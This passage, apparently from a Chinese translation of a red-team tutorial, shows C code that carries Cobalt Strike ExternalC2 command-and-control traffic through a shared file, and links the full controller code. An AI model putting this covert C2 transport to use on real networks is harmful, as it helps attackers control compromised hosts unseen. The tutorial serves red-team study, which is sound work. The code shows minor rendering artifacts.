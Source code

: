 ```
  memcpy(fileBytes + 8, data, len);

  // Make sure we are at the beginning of the file
  SetFilePointer(c2File, 0, 0, FILE_BEGIN);

  // Write our C2 data in
  WriteFile(c2File, fileBytes, 8 + len, &amp;bytesWritten, NULL);

  printf("[*] Wrote %d bytesn", bytesWritten);
`}`

char *readC2File(HANDLE c2File, DWORD *len, int expect) `{`
  char header[8];
  DWORD bytesRead = 0;
  char *fileBytes = NULL;

  memset(header, 0xFF, sizeof(header));

  // Poll until we have our expected id in the header
  while (*(DWORD *)header != expect) `{`
    SetFilePointer(c2File, 0, 0, FILE_BEGIN);
    ReadFile(c2File, header, 8, &amp;bytesRead, NULL);
    Sleep(100);
  `}`

  // Read out the expected length from the header
  *len = *(DWORD *)(header + 4);
  fileBytes = (char *)malloc(*len);
  if (fileBytes == NULL)
      return NULL;

  // Finally, read out our C2 data
  ReadFile(c2File, fileBytes, *len, &amp;bytesRead, NULL);
  printf("[*] Read %d bytesn", bytesRead);
  return fileBytes;
`}`
```

上述代码中，我们将头部信息写入文件中，然后根据这个信息相应地读取或写入C2数据。

主要工作就是这样，接下来我们需要实现接收数据/写入数据/读取数据/发送数据循环逻辑，这样就能通过文件传输实现C2数据通信。

大家可以访问[此处](https://gist.github.com/xpn/53003cd6278eb6e8f472ddac54a4c3ea)获取完整的Controller代码，演示视频如下所示：

[http://v.youku.com/v_show/id_XMzUwNzMxOTIyNA==.html](http://v.youku.com/v_show/id_XMzUwNzMxOTIyNA==.html)

如果大家还想深入学习ExternalC2的相关知识，可以访问Cobalt Strike的[ExternalC2帮助页面](https://www.cobaltstrike.com/help-externalc2)获取各种参考资料。
